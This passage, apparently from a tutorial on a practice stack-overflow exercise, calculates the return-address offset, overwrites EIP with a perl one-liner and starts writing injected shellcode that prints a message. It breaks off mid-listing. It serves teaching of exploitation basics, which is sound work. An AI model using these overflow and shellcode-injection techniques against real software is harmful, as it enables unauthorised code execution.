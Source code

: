 Referring the call stack layout we saw earlier, the offset of EIP can be
easily calculated. The `buf` 80B + cookie 4B + saved Frame Pointer 4B =
88B. This is the offset of EIP from the start of the `buf` array:

```bash
# perl -e 'print "A"x88 . "\x59\x84\x04\x08"' | ./stack1
buf: bfebf464 cookie: bfebf4b4
you win!
Segmentation fault
```

We were able to overwrite EIP and redirect control to a desired
location. This action helped us to bypass the if condition without
actually modifying the contents of the source program.

##Solution #3: Inject and execute a shellcode that simulates the second printf statement, through the internal buf character array

We now move on to the third solution for this program. We have found
that the program has a buffer in which we can inject junk data and we
also have the ability to redirect control to arbitrary locations. These
two possibilities, when combined together, allow us to execute arbitrary
shellcode. We will design a shellcode that simulates the behavior of the
`puts` call and inject it within the program buffer. We will then modify
the contents of EIP to point to the buffer where our injected shellcode
ends up. If all goes well, this shellcode will be executed and we will
have the message printed.There is however one thing we will have to
think about before we move ahead. Recall the `checksec.sh` output above.
It tells that one of the mitigation features, `NX`, is enabled for the
vulnerable `stack1` program. This means that when we execute this
binary, it will have its stack segment marked as non-executable:

```bash
# readelf -l stack1 | grep -i gnu_stack
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

From the above output, stack is marked as `RW` for the vulnerable
program. As such, even if we can inject (write) shellcode into `buf`, we
can not execute it. Any attempts to redirect EIP to our shellcode would
be successful, however, the instant we try to execute shellcode, an
exception would be raised that will eventually terminate the program.
So, we'll have to disable this feature for solutions #3 and #4 to work
correctly. But I'm not going to disable them for now. As you'll see, our
exploit attempts would still work in the presence of `NX` and at the end
of the post I'll point out the exact reason for such a behavior. Till
then read on and try to think about why this might be happening.

First we need to design a shellcode that simulates the `puts` call. I
came up with the following:

```bash
# cat -n printf.s
     1  # printf.s
     2  # sample program to print "you win!\n" message to stdout
     3
     4  .section .text
     5  .globl _start
     6
     7  _start:
     8    jmp cali
     9
    10  init:
    11    xorl %eax, %eax
    12    xorl %ebx, %ebx
    13    xorl %edx, %edx
    14    mov $4, %al
    15    mov $1, %bl
```